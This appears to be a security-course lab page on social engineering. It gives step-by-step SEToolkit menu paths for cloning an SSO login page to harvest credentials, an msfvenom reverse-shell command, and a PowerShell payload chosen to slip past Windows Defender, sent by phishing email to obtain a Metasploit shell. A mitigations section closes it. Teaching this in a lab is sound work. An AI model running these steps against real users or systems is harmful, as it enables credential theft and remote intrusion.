

📚 Theory & Class Notes
Social Engineering focuses entirely on the human element, exploiting psychology rather than technical flaws. It relies on manipulation, urgency, and authority to trick victims into breaking standard security procedures.
Vulnerabilities: Human trust, lack of security awareness training, absent Multi-Factor Authentication (MFA), improperly configured SPF/DKIM/DMARC email records.
Tools: Social Engineer Toolkit (SET), Evilginx2 (for AITM MFA bypass), GoPhish.
1. Core Concept 🧠
Social Engineering focuses on the weakest link in any security system: the human. Instead of hacking the firewall, you hack the employee by manipulating them into giving up confidential information or executing a malicious payload.
Real-world analogy: Instead of picking the lock to the bank vault (technical hacking), you dress up as a maintenance worker, carry a clipboard, look confident, and simply ask the manager to open the door for you.
2. Attack Flow Visual 🎯
Execution Mapping
| Step | Action | Tool / Payload | Output |
|---|---|---|---|
| 1 | Payload Generation | msfvenom -p windows/meterpreter/reverse_tcp |
Malicious .exe created |
| 2 | Clone Target Site | SET Toolkit (Credential Harvester) | Fake Login Portal acting as Host |
| 3 | Execution by Victim | Double-clicks the attached file | Command & Control connection |
3. Hands-on Lab 🧪
🧪 Lab: Spearphishing & Malicious Payloads
Architecture Diagram

Setup
# We have deployed a dummy "Corporate SSO" page for you to clone.
# Make sure the lab container is running:
cd ../../labs/docker/
docker compose up -d social-engineering-appAttack Steps
- Information Gathering & Pretexting: Identify the dummy Corporate SSO Portal running on port
8001. This is the page we will spoof to trick users. - Configure SEToolkit: Run
setoolkitin your attacker Kali VM. Select:
1) Social-Engineering Attacks→2) Website Attack Vectors→3) Credential Harvester Attack Method→2) Site Cloner - Deploy the Cloned Site: When prompted, enter your Attacker IP (e.g.
10.0.0.10) for the POST back, and enter the URL of the corporate SSO page to clone (e.g.http://<target-ip>:8001). - Payload Generation & Evasion: Simple `.exe` payloads are caught by Windows Defender immediately. Instead, attackers use fileless methods or chained macros. Try generating a PowerShell payload.
In SEToolkit:1) Social-Engineering Attacks→9) PowerShell Attack Vectors→1) PowerShell Alphanumeric Shellcode Injector. - Simulate the Attack: Send the phishing email containing the link to your cloned portal and the malicious attachment. When the victim enters their credentials on the fake site, you capture them in plaintext! When they enable the Macro, you get a Metasploit reverse shell!
Expected Output

Fix / Mitigation
Implement strong Security Awareness Training for all employees. Use robust Email Filtering (SPF/DKIM/DMARC) and disable Office Macros system-wide via GPO. Implement Endpoint Detection and Response (EDR) to catch malicious child processes.